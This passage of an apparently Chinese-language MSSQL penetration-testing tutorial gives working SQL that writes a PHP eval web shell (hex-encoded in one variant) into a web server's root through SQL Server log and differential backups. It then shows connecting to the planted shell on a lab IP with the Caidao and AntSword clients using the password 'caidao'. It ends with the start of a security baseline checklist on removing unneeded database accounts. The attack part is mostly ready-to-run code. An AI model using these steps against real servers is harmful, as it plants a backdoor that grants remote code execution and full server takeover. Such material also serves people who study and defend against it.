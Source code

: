 ```mssql
create database st1;
use st1;
create table cmd (a image);
backup database st1 to disk='c:\temp\st1.bak' with init;
insert into cmd values(0x3c3f70687020406576616c28245f504f53545b2263616964616f225d293b203f3e);
backup log st1 to disk ='E:\phpstudy_pro\WWW\st1.php';
```

![image-20240729151138910](https://image.201068.xyz/assets/MSSQL/image-20240729151138910.png)

http://192.168.70.21:81/st1.php

![image-20240729151054487](https://image.201068.xyz/assets/MSSQL/image-20240729151054487.png)

##### 菜刀连接

```
http://192.168.70.21:81/st1.php
caidao
```

![image-20240729143755492](https://image.201068.xyz/assets/MSSQL/image-20240729143755492.png)

##### 蚁剑连接

```
http://192.168.70.21:81/st1.php
caidao
```

![image-20240729151759061](https://image.201068.xyz/assets/MSSQL/image-20240729151759061.png)

### 差异备份

```mssql
create database st3;
use st3;
backup database st3 to disk='c:\temp\st3.bak' with init; --先完整备份

create table cmd (a varchar(200));
insert into cmd values('<?php @eval($_POST['+'"'+'caidao'+'"'+']); ?>'); 
backup database st3 to disk='E:\phpstudy_pro\WWW\shell.php' with DIFFERENTIAL,FORMAT; --差异备份
```

## 七、**sql-server安全基线检查**

### 1、**删除不必要的账号**

- 安全基线项目名称∶数据库管理系统SQLServer用户安全基线要求项
- 安全基线项说明∶应删除与数据库运行、维护等工作无关的帐号。
- 检测操作步骤∶

> SQL SERVER企业管理器->安全性->登陆中删除无关帐号;
>
> SQL SERVER企业管理器->数据库->对应数据库->用户中删除无关帐号;
